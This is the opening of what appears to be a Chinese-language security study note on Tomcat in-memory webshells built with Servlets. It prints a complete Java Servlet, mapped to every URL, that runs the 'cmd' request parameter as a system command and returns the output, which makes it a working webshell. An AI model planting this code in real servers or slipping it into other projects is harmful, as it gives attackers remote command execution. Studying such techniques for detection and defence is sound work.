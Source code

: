 # Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令
![image-20221101114404454](images/image-20221101114404454.png)
